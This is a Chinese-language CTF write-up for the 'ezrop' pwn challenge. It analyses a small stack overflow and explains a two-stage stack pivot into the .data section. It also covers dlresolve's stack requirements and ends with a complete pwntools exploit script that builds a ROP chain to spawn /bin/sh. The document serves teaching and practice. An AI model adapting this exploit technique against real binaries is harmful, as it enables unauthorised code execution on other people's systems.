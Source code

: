 ```yaml
---
title: dlresolve-Feature-and-Segmented-stack-migration-ezrop
date: 2022-4-25
tags: 
- Pwn
- CTF

categories:
- CTF

toc: true # 是否启用内容索引
sidebar: none # 是否启用sidebar侧边栏，none：不启用
---
```






# dlresolve Feature and Segmented stack migration-ezrop

## 0x1 checksek

```bash
$ checksec ezrop 
[*] '/home/nemo/Active/Script/ezrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

开了NX和partial RELRO

## 0x2 Analysis

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[48]; // [rsp+0h] [rbp-30h] BYREF

  init(argc, argv, envp);
  puts("You can use stackoverflow.");
  puts("But only overflow a bit more...");
  puts("And you must print first.");
  memset(s, 0, 0x20uLL);
  write(1, s, 0x30uLL);
  read(0, s, 0x40uLL);
  return 0;
}
```

这个题目本身比较简单，本身给了你一个泄露，又只开了PIE，通过这个write的泄露可以拿到libc地址，考虑到题目还给了libc，预期解可能是找libc里面的/bin/sh字符串

但是既然没有开PIE，就没有必要这么麻烦了，直接在数据段写入/bin/sh就行

~~虽然大致脚本很早就写完了，但是运行发现了一些令人无语的错误~~

## 0x3 Process

1. 栈迁移到data段
2. 通过rbp控制read写入位置在数据段写入ROP链
3. getshell

## 0x4 Some questions

1. 对于这个通过rbp同时控制read位置和栈迁移的题目，我之前遇到过一次，但是当时没有做出来。调试过程中发现system一直失败，调试过程中发现原来是.got表中的dlresolve地址被改了一个字节\0a, 一个回车，分析之后发现原来是我ret 到read了三次，第三次read把sendline的回车读取了，写到了这个位置。因为对这个分段打栈迁移的技术还不是特别熟悉，现在终于理解这个技术，其实是实现了两次栈迁移。
2. 在解决了上面的问题，调试到system发现又失败了，继续跟进，发现seg fault在dlresolve向栈中保存的指令。发现dlreslove保存寄存器要在栈里面写一大段数据，因为我写入的是data段的开头，导致访问到了前面没有写入权限的位置。这起码要预留0x800的内存在前面，但是data段和bss段加起来都没有这么多，思考data和bss段所在的这一部分内存页权限应该是一致可写的，所以在这一段往后移了0x800

## 0x5 exp

```c
from pwn import*

p = process('./ezrop')
#p = gdb.debug('./ezrop')

m = u64(p.recv(40)[-8:])

payloads = p64(0x400863) + b'/bin/sh\0' + p64(0x400600)

payloads += cyclic(0x18)
payloads += p64(0x601848+0x30) + p64(0x4007d9)

p.send(payloads)

sleep(1)

payloads = p64(0x4006fa) + p64(0x400863) + p64(0x601868) + p64(0x400600) 
payloads += b'/bin/sh\0'
payloads += b'/bin/sh\0'
payloads += p64(0x601848-0x8) + p64(0x4007f9)

p.send(payloads)

p.interactive()

#0x00007f7b3ce92bb0      0x00007f7b3ccf8450
```

## 0x6 New skills

1. 分段打栈迁移
   - 在第一次read读入后将rbp改为要写入的位置
   - ret到read
   - 第二次read读入的数据将rbp改为写入的ROP链的位置，注意leave后的指令位置会加8
   - 这个leave的加8会把我们的rip指向我们第二次写入时的ret位置，只要我们第二次写入的ret位置指向leave，就实现了第二次的栈迁移，迁移到了第二次写入的ROP链的位置
2. dlrelsolve过程会保存大量寄存器数据，需要预留很大的栈空间